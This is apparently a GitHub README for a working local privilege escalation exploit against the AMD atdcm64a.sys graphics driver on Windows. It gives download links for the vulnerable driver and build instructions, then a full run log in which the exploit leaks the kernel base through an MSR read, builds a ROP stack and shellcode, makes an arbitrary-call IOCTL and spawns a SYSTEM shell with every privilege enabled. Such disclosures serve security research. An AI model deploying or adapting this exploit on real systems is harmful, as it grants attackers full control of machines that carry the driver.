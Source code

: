 # ATDCM64a.sys LPE POC

Exploit for atdcm64a.sys vulnerable driver. The vulnerable driver can be downloaded from this [link](https://drivers.amd.com/drivers/beta/win10-64bit-radeon-software-adrenalin-edition-18.12.1.1-dec5.exe).
If not possible follow this procedure:
1. Navigate to this [link](https://www.amd.com/en/support/downloads/previous-drivers.html/graphics/radeon-600-500-400/radeon-rx-500-series/radeon-rx-580.html)
2. Expand the “Windows 10 – 64-bit Edition” tab
3. Download the package Adrenalin Edition 18.12.1.1 Optional (Release date: 2018-12-05)
   
All info are in the blog series [here](https://security.humanativaspa.it/tag/atdcm64a/).

## Compile

Compile with Visual Studio using `Release` `x64`. Exploit will be located at `.\x64\Release\DrvExpTemplate.exe`. Ignore error of type `Exit from command copy <path> x:\temp\`. This command was executed in order to deploy automatically the compiled exploit on the target machine, therefore you can ignore the error. 

## Run

```
PS > whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
PS C:\Users\IEUser\Desktop> .\DrvExpTemplate.exe
[+] Opened handle to device: 0x00000000000000D0
[+] User buffer allocated: 0x0000025BEC060000
[*] sent IOCTL_READMSR
[+] readMSR success.
[+] IA32_LSTAR = 0xFFFFF800264F61C0
[+] g_ntbase = 0xFFFFF80025A00000
[+] object = 0x0000001AFEFF0000
[+] second object = 0x0000001AFEFFFFD0
[+] ptr = 0x0000001AFF000000
[+] object2 = 0x0000025BEC080000
[+] driverObject = 0x0000025BEC090000
[+] ptr->AttachedDevice = 0x0000025BEC080030
[*] fake_stack = 0x00000000FEFF0000
[+] VirtualLock returned successfully
[*] ropStack = 0x00000000FF000000
[*] sc = 0x00001A1A1A003500
[*] pml4shellcode_index 0x0000000000000034
[+] User buffer allocated: 0x0000025BEC070000
[*] sent IOCTL_ARBITRARYCALLDRIVER
[+] arbitraryCallDriver returned successfully.
[*] spawning system shell...
Microsoft Windows [Version 10.0.22631.2861]
(c) Microsoft Corporation. All rights reserved.

>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

>
```
## References

* https://ommadawn46.medium.com/windows-kernel-exploitation-hevd-on-windows-10-22h2-b407c6f5b8f7
